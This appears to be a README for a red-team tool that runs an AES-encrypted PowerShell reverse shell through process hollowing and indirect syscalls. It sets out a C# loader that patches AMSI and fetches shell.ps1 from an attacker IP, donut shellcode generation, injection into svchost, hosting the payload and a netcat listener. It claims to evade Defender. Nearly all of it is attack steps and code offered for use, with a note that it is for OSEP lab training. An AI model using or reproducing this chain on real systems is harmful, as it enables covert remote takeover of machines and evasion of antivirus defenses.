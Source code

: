 # Stealth-Shellcode-Runner (Indirect Syscalls)

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the Python script to AES-encrypt the generated shellcode.

Paste the generated arrays into your Process Hollowing runner.

---

## 🧠 Step 4 - Execute with Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory via indirect syscall
- Decrypt and write the AES-encrypted shellcode
- Change protection and execute via `NtCreateThreadEx`

> Note: Only `NtAllocateVirtualMemory` uses an indirect syscall via a memory stub. Other syscalls (`NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are still invoked via direct P/Invoke.

📌 Replace the following placeholders with your actual AES-encrypted shellcode and keys:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell is hosted in a file named `shell.ps1`.


Then serve the file using Python's HTTP server from the directory containing `shell.ps1`:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

Use `rlwrap` with `netcat` to handle a fully interactive reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is silently patched
- PowerShell payload is downloaded and executed in memory
- Shellcode is decrypted and injected into a remote process
- Connection established with full interactivity
- Tested and working in OSEP lab environments with Defender enabled

---

**Built for OSEP training and red team lab use. Not intended for real-world offensive operations without proper authorization.**

